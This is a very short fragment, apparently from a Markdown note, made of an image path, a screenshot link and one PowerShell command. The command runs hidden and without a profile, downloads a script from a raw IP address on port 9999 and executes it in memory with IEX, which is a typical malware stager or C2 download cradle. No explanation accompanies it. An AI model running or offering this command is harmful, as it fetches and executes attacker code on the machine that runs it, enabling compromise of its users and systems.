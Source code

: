![image-20220317083710959](https://tva1.sinaimg.cn/large/e6c9d24ely1h0ckzdvtkuj21580u0121.jpg)





```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://221.129.238.18:9999/www'))"
```

